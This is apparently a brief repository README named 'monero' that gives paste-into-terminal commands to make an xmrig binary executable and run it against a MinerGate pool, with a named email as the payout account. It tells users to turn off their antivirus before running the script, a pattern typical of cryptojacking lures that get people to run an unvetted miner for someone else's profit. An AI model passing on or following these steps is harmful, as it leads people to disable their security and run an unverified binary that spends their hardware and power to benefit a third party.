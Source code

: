 # monero
Copy and paste the commands below into the terminal 

COMMAND LINES FOR RUNNING THE SCRIPT

make sure to turn off your antivirus when running this script 

cd monero

chmod u+x ./xmrig #

./xmrig -o xmr.pool.minergate.com:45700 -u osarumenscott9@gmail.com -p x --donate-level 1
